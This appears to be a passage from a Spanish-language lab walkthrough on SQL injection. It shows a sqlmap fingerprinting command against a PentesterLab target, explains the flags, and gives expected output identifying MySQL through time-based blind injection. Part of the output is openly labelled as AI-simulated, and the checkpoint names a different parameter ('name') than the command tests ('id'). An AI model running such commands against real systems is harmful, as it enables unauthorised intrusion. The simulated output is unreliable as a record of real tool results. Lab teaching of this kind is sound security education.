 ✔️ Punto de Verificación: Se confirmó manualmente que el parámetro `name` es vulnerable a inyección SQL.

PASO 4: Comando 1 - Fingerprinting de la Base de Datos
Objetivo: Identificar el tipo y versión del sistema de gestión de base de datos.

```bash
sqlmap -u "http://[IP_PENTESTERLAB]/sqli/example1.php?id=1" --fingerprint
```

💡 Explicación de parámetros:

- -u: URL objetivo con parámetro vulnerable

- --fingerprint: Realiza análisis detallado del DBMS
📊 Salida esperada (resumen):
[*] starting @ 00:49:15

[00:49:15] [INFO] testing connection to the target URL
[00:49:15] [INFO] testing if the target URL content is stable
[00:49:16] [INFO] target URL content is stable
[00:49:16] [INFO] testing if GET parameter 'id' is dynamic
[00:49:16] [INFO] GET parameter 'id' appears to be dynamic
[00:49:16] [INFO] heuristic (basic) test shows that GET parameter 'id' might be injectable
[00:49:16] [INFO] testing for SQL injection on GET parameter 'id'

[00:49:17] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind'
[00:49:27] [INFO] GET parameter 'id' appears to be 'MySQL >= 5.0.12 AND time-based blind' injectable

back-end DBMS: active fingerprint: MySQL >= 5.0.12
               comment injection fingerprint: MySQL 5.0.51
               html error message fingerprint: MySQL

[*] ending @ 00:49:30
🔍 Análisis:
Información Valor Significado
DBMS MySQLSistema de base de datos
Versión	>= 5.0.12 Versión mínima detectada
Versión específica 5.0.51 Versión exacta identificada
Técnica efectiva Time-based blind Inyección basada en tiempo

📝 Documentar:

- Sistema: MySQL
- Versión: 5.0.51
- Técnica: Time-based blind injection

**📊 Simulación de la Práctica — Salida Generada con IA (NO es una ejecución real)**

La siguiente salida es una simulación realista generada con IA que representa lo que sqlmap podría devolver al ejecutar el comando `--fingerprint` contra la aplicación vulnerable. Está incluida únicamente con fines didácticos.

``` bash
[*] starting @ 00:49:15

[00:49:15] [INFO] testing connection to the target URL
[00:49:15] [INFO] testing if the target URL content is stable
[00:49:16] [INFO] target URL content is stable
[00:49:16] [INFO] testing if GET parameter 'id' is dynamic
[00:49:16] [INFO] GET parameter 'id' appears to be dynamic
[00:49:16] [INFO] heuristic (basic) test shows that GET parameter 'id' might be injectable
[00:49:16] [INFO] testing for SQL injection on GET parameter 'id'

[00:49:17] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind'
[00:49:27] [INFO] GET parameter 'id' appears to be 'MySQL >= 5.0.12 AND time-based blind' injectable

back-end DBMS:    MySQL >= 5.0.12
```